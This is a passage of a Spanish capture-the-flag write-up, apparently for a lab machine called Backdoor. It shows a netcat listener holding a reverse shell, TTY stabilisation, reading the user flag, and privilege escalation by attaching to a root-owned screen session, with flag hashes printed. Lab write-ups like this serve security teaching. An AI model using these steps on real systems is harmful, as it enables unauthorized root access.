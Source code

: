 Vamos a realizar un tratamiento a la tty para poder movernos con mayor comodidad.

```console
user@Backdoor:/home/user$ script /dev/null -c bash
script /dev/null -c bash
Script started, file is /dev/null
/usr/bin/bash: /usr/bin/bash: cannot execute binary file
Script done, file is /dev/null
user@Backdoor:/home/user$ ^Z
zsh: suspended  nc -nlvp 9999
❯ stty raw -echo; fg
[1]  + continued  nc -nlvp 9999
                               reset xterm
user@Backdoor:/home/user$ export TERM=xterm
user@Backdoor:/home/user$ export SHELL=bash
user@Backdoor:/home/user$ ls
user.txt
user@Backdoor:/home/user$ cat user.txt 
3c8331a33082e9498264297139288028
```

## Escalada de Privilegios

Lo primero es ver si tenemos algún permiso a nivel de sudo:

```console
user@Backdoor:/home/user$ sudo -l
[sudo] password for user: 
```

Nos pide contraseña pero no la conocemos, por lo tanto no podemos listar los permisos.

Con el comando **`ps aux`** podemos listar todos los procesos en ejecución. De entre todos, uno me llama la atención:

```console
root         913  0.0  0.1   6952  2436 ?        Ss   01:55   0:00 SCREEN -dmS root
```

Como vemos, se está ejecutando una sesión **`screen`** referenciada con el nombre **`root`**. Vamos a entrar en la sesión:

```console
p3ntest1ng:~$ /usr/bin/screen -x root/root
```

```console
root@Backdoor:~# whoami && id
root
uid=0(root) gid=0(root) groups=0(root)
root@Backdoor:~# ls
root.txt
root@Backdoor:~# cat root.txt 
7dc16ed16413b46043c7adf087fe1b69
root@Backdoor:~# 
```

### ¡Gracias por leer hasta el final!

#### Nos vemos en un próximo. ¡Feliz hacking! ☠
